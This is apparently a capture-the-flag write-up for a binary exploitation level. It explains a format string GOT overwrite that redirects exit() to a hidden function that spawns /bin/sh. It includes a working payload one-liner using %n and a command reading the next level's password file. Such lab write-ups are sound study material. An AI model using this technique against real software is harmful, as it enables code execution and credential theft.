

# LEVEL5

Once again, a buffer overflow isn't possible because *fgets()* reads 512 characters into a 520-character buffer. However, we can perform a `Format String` attack using *printf()*. Additionally, there's a function *o()* that executes **"/bin/sh"** but is never called. To invoke *o()*, we can perform a `GOT overwrite`.

> When the program runs, the GOT (Global Offset Table) is initialized for all external functions (such as libc functions). Overwriting an address in the GOT, like one for a libc function, is known as a **GOT Overwrite**.

To construct the payload, we'll need to gather the following information:

- The memory offset where we need to write.
- The addresses of *exit()* and *o()*.

First, we'll determine the offset.

```
> ./level5
> AAAA %p %p %p %p %p %p %p %p %p %p
```

The offset is found at the fourth position. Next, we'll retrieve the addresses of *exit()* and *o()*.\
The function *exit()* is located in the GOT, so we need to examine it to obtain its address.

```
objdump -R level5
```


The address of *exit()* is *0x08049838*.

```
objdump -d level5
```


And the address of *o()* is *0x080484a4*.

Now, we can build the payload using all the informations we've gathered, following this template:\
`payload = address to overwrite + value to write + offset where to write`

```
python -c 'print("\x38\x98\x04\x08" + "%134513824x" + "%4$n")' > /tmp/payload5
```

The value to write is the address of o() converted to decimal, minus 4, since the address of exit() occupies 4 bytes.\
Finally, we can use the payload on the binary.

```
cat /tmp/payload5 - | ./level5
```

And retrieve the flag.

```
cat /home/user/level6/.pass
```

**LEVEL5 COMPLETE!**